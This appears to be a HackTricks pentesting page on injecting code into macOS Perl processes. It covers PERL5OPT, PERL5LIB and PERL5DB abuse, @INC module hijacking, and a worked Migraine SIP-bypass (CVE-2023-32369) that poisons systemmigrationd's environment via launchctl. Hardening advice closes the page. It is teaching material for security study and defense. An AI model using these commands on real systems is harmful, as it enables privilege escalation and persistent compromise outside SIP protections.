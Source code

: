 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Via `PERL5OPT` & `PERL5LIB` env variable

Using the env variable **`PERL5OPT`** it's possible to make **Perl** execute arbitrary commands when the interpreter starts (even **before** the first line of the target script is parsed).  
For example, create this script:

```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```

Now **export the env variable** and execute the **perl** script:

```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```

Another option is to create a Perl module (e.g. `/tmp/pmod.pm`):

```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```

And then use the env variables so the module is located and loaded automatically:

```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```

### Other interesting environment variables

* **`PERL5DB`** – when the interpreter is started with the **`-d`** (debugger) flag, the content of `PERL5DB` is executed as Perl code *inside* the debugger context.  
  If you can influence both the environment **and** the command-line flags of a privileged Perl process you can do something like:
  
  ```bash
  export PERL5DB='system("/bin/zsh")'
  sudo perl -d /usr/bin/some_admin_script.pl   # will drop a shell before executing the script
  ```

* **`PERL5SHELL`** – on Windows this variable controls which shell executable Perl will use when it needs to spawn a shell. It is mentioned here only for completeness, as it is not relevant on macOS.

Although `PERL5DB` requires the `-d` switch, it is common to find maintenance or installer scripts that are executed as *root* with this flag enabled for verbose troubleshooting, making the variable a valid escalation vector.

## Via dependencies (@INC abuse)

It is possible to list the include path that Perl will search (**`@INC`**) running:

```bash
perl -e 'print join("\n", @INC)'
```

Typical output on macOS 13/14 looks like:

```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```

Some of the returned folders don’t even exist, however **`/Library/Perl/5.30`** does exist, is *not* protected by SIP and is *before* the SIP-protected folders. Therefore, if you can write as *root* you may drop a malicious module (e.g. `File/Basename.pm`) that will be *preferentially* loaded by any privileged script importing that module.

> [!WARNING]
> You still need **root** to write inside `/Library/Perl` and macOS will show a **TCC** prompt asking for *Full Disk Access* for the process performing the write operation.

For example, if a script is importing **`use File::Basename;`** it would be possible to create `/Library/Perl/5.30/File/Basename.pm` containing attacker-controlled code.

## SIP bypass via Migration Assistant (CVE-2023-32369 “Migraine”)

In May 2023 Microsoft disclosed **CVE-2023-32369**, nick-named **Migraine**, a post-exploitation technique that allows a *root* attacker to completely **bypass System Integrity Protection (SIP)**.  
The vulnerable component is **`systemmigrationd`**, a daemon entitled with **`com.apple.rootless.install.heritable`**. Any child process spawned by this daemon inherits the entitlement and therefore runs **outside** SIP restrictions.

Among the children identified by the researchers is the Apple-signed interpreter:

```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```

Because Perl honors `PERL5OPT` (and Bash honors `BASH_ENV`), poisoning the daemon’s *environment* is enough to gain arbitrary execution in a SIP-less context:

```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```

When `migrateLocalKDC` runs, `/usr/bin/perl` starts with the malicious `PERL5OPT` and executes `/private/tmp/migraine.sh` *before SIP is re-enabled*. From that script you can, for instance, copy a payload inside **`/System/Library/LaunchDaemons`** or assign the `com.apple.rootless` extended attribute to make a file **undeletable**.

Apple fixed the issue in macOS **Ventura 13.4**, **Monterey 12.6.6** and **Big Sur 11.7.7**, but older or un-patched systems remain exploitable.

## Hardening recommendations

1. **Clear dangerous variables** – privileged launchdaemons or cron jobs should start with a pristine environment (`launchctl unsetenv PERL5OPT`, `env -i`, etc.).
2. **Avoid running interpreters as root** unless strictly necessary. Use compiled binaries or drop privileges early.
3. **Vendor scripts with `-T` (taint mode)** so that Perl ignores `PERL5OPT` and other unsafe switches when taint checking is enabled.
4. **Keep macOS up to date** – “Migraine” is fully patched in current releases.

## References

- Microsoft Security Blog – “New macOS vulnerability, Migraine, could bypass System Integrity Protection” (CVE-2023-32369), May 30 2023.
- Hackyboiz – “macOS SIP Bypass (PERL5OPT & BASH_ENV) research”, May 2025.

{{#include ../../../banners/hacktricks-training.md}}
